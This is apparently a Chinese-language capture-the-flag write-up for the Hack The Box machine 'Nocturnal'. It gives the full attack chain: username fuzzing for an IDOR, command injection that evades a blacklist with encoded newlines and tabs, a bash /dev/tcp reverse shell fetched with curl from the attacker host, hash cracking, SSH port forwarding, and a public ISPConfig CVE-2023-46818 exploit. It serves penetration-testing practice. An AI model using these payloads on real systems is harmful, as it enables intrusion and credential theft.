## Nocturnal

### 【0】使用burpsuite前奏
#### 浏览器输入http://IP,出现的域名
```
echo 'IP nocturnal.htb' | sudo tee a /etc/hosts
```
### 【1】截取下载文件GET请求
#### 先注册再登录
```
echo test > kavi.php
```

直接修改没有注册过的用户名就Forward,就会立马返回：

### 【2】模糊枚举用户名
```
$ ffuf -u 'http://nacturnal.htb/view.php?username=FUZZ&file=kavi.pdf' -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -H 'Cookie:PHPSESSID=as44ki0rk3p6a2of93rihp9bnb' -fs 2985
```
#### FUZZ为ffuf的占位符

#### 枚举出了用户名为amanda
### 【3】修改GET请求的username为amanda,然后Froword就可以得到：下载的时候记得连网

#### 得到了privacy.odt
```
//如何查看privacy.odt文件
$ unzip privacy.odt -d privacy_contents

$ cat pricacy_contents
$ cat content.xml | grep -i "pass"
```
#### 得到了amanda的密码arHkG7HAI68X8s1J,直接登录amanda用户，点击在左上角GO to Adamin Panle
### 【4】截取创建备份密码的POST请求
#### 输入testpass; id  //没有截取时会返回错误提示
#### 根据文件admin.php
```
//admin.php
function_cleanEntry($entry) {
  $blacklist_chars = [';', '&', '|', '$', ' ', ',', '`', '{', '}', '&&'];
```

```
//备好shell文件
$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.87/4193 0>&1'" > shell
//备好传送
$ python3 -m http.server 83
```
#### 在POST请求输入：
```
password=xiaohei%0acurl%09http://10.10.14.87:83/shell%09-o%09/tmp/shell&backup=
```
#### xiaohei为随意设置的密码，%09为\t空格，%0a为\n

#### Forword后，在浏览器页面会显示：

#### 显示已经被下载了，可以断开http.server,开启侦听nc

#### 在POST请求上输入：
```
password=xiaohei%0abash%09/tmp/shell&backup=
```
#### forword之后就可以反弹连接上了

```
www-data@nocturnal:~/nocturnal.htb$ script -q /dev/null -c bash
```
#### script → 启动一个新的 shell 会话
### 【5】在反弹连接里面获取hash密码和用户tobias
```
www-data@nocturnal:~/nocturnal_database$ ls -la
www-data@nocturnal:~/nocturnal_database$ sqlite3 nocturnal_database.db
sqlite> .tables
sqlite> select * from users;
```

#### 解hash密码
```
//在一个新的本地终端
$ echo -n 55c82b1ccd55ab219b3b109b07d5061d > hash

$ ls /usr/share/wordlists/rockyou.txt.gz
$ cp /usr/share/wordlists/rockyou.txt.gz .  //复制到当前目录
$ gunzip rockyou.txt.gz

$ hashcat -m 0 hash rockyou.txt
```

#### 得到了用户tobias的密码
### 【6】ssh登录tobias ｜ SSH 本地端口转发 (Local Port Forwarding)
```
$ ssh tobias@nocturnal.htb
```
#### 这个sudo配置无果

#### 枚举，tobias显示端口8080对本地接口127.0.0.1是开放的
```
tobias@nocturnal:~$ ss -tlnp
```

#### 将此端口转发到攻击者的机器以进行进一步调查
```
$ ssh -L 8089:127.0.0.1:8080 -N -vv tobias@nocturnal.htb
//挑个不被占用的端口，如8089
//-L 8089:127.0.0.1:8080 本地端口转发，意思是：把你本地机器的 8089 端口；映射到远程主机 tobias@nocturnal.htb 上能访问的 127.0.0.1:8080 服务
//-N 不执行远程命令，只建立端口转发隧道
//-vv 开启详细调试输出（-v 是 verbose，-vv 更详细）
```
#### 同时打开本地浏览器页面127.0.0.1:8089

#### username:admin Passworf：tobias的密码slowmotionapocalypse
### 【7】关于ISPConfig的漏洞
#### 它的版本号

#### https://github.com/bipbopbup/CVE-2023-46818-python-exploit
```
$ git clone https://github.com/bipbopbup/CVE-2023-46818-python-exploit.git
$ cd CVE-2023-46818-python-exploit

$ python3 exploit.py http://127.0.0.1:8089 admin slowmotionapocalypse
```

#### $ cat /root/root.txt
